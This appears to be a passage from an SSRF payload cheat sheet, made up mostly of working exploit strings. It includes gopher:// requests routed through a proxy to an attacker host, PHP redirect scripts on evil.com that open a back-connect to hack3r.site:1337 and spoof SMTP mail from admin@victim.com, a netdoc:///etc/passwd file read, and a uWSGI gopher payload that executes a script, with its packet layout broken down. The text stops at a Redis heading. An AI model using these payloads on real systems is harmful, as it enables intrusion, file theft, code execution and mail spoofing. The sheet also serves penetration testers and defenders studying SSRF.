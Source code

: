 You didn't say the magic word !


.
QUIT
Gopher HTTP
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
Gopher SMTP - Back connect to 1337
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
Gopher SMTP - send a mail
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
Netdoc
Wrapper for Java when your payloads struggle with “\n” and “\r” characters.

ssrf.php?url=netdoc:///etc/passwd
SSRF exploiting WSGI
Exploit using the Gopher protocol, full exploit script available at https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py.

gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
Header		
modifier1	(1 byte)	0 (%00)
datasize	(2 bytes)	26 (%1A%00)
modifier2	(1 byte)	0 (%00)
Variable (UWSGI_FILE)				
key length	(2 bytes)	10	(%0A%00)	
key data	(m bytes)		UWSGI_FILE	
value length	(2 bytes)	12	(%0C%00)	
value data	(n bytes)		/tmp/test.py	
SSRF exploiting Redis
Redis is a database system that stores everything in RAM
